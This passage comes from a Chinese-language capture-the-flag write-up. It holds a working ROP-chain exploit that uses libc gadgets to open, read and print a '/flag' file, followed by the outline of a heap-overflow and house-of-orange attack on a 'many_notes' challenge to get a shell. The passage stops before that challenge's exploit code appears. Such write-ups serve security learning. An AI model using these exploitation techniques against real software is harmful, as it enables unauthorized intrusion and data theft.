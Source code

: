 ```
#通过任意地址写在栈上构造读取flag的rop
buf_addr = elf_addr - 0x555555554000 + 0x00005555557561C8
p = ''
# fd = open('flag', 0)
p += p64(0x00000000000202e8+libc.address) # pop rsi ; ret
p += p64(buf_addr) # @ .data
p += p64(0x0000000000033544+libc.address) # pop rax ; ret
p += '/flag'.ljust(8,'x00')
p += p64(0x000000000007783a+libc.address) # mov qword ptr [rsi], rax ; ret
p += p64(0x0000000000021102+libc.address) # pop rdi ; ret
p += p64(buf_addr) # @ .data
p += p64(0x00000000000202e8+libc.address) # pop rsi ; ret
p += p64(0)                     # rsi = 0
p += p64(0x000000000008b8c5+libc.address) # xor rax, rax ; ret
p += p64(0x00000000000abf40+libc.address) # add rax, 1 ; ret
p += p64(0x00000000000abf40+libc.address) # add rax, 1 ; ret
p += p64(0x00000000000bc375+libc.address) # syscall ; ret
# read(fd, buf_addr+8, 0x100)
# p += p64(0x000000000044fd9f) # xchg eax, ebp ; ret
p += p64(0x00000000000202e8+libc.address) # pop rsi ; ret
p += p64(buf_addr+0x30) # @ .data + fd
p += p64(0x000000000007783a+libc.address) # mov qword ptr [rsi], rax ; ret
p += p64(0x0000000000001b92+libc.address) # pop rdx ; ret
p += p64(buf_addr+0x30) # @ .data + fd
p += p64(0x00000000001840e6+libc.address) # mov edi, dword ptr [rdx] ; ret
p += p64(0x00000000000202e8+libc.address) # pop rsi ; ret
p += p64(buf_addr+8) # @ .data + 8
p += p64(0x0000000000001b92+libc.address) # pop rdx ; ret
p += p64(0x100) # 0x100
p += p64(0x000000000008b8c5+libc.address) # xor rax, rax ; ret
p += p64(0x00000000000bc375+libc.address) # syscall ; ret
# write(1, buf_addr+8, 0x100)
p += p64(0x0000000000021102+libc.address) # pop rdi ; ret
p += p64(1) # stdout
p += p64(0x00000000000202e8+libc.address) # pop rsi ; ret
p += p64(buf_addr+8) # @ .data + 8
p += p64(0x0000000000001b92+libc.address) # pop rdx ; ret
p += p64(0x100) # 0x100
p += p64(0x000000000008b8c5+libc.address) # xor rax, rax ; ret
p += p64(0x00000000000abf40+libc.address) # add rax, 1 ; ret
p += p64(0x00000000000bc375+libc.address) # syscall ; ret
payload += p
# gdb.attach(r,"b *0x00005555555551E7")
edit(0,payload)
r.interactive()
```

### <a class="reference-link" name="many_notes"></a>many_notes

**分析**
- 输入username长度为8是可以泄露libc地址
- 在read函数中，输入content的时候，循环中的size大小不变，有堆溢出漏洞
- 线程thread_arena分配的堆块原理与main_arena大致一样
- 通过不停分配堆块，类似于house of orange，最后top chunk不够分配的内存会被free掉进入unsortbin
- 从unsortbin中new一个新的堆块，并通过堆溢出漏洞修改unsortbin，利用house of orange方法getshell
**exp**
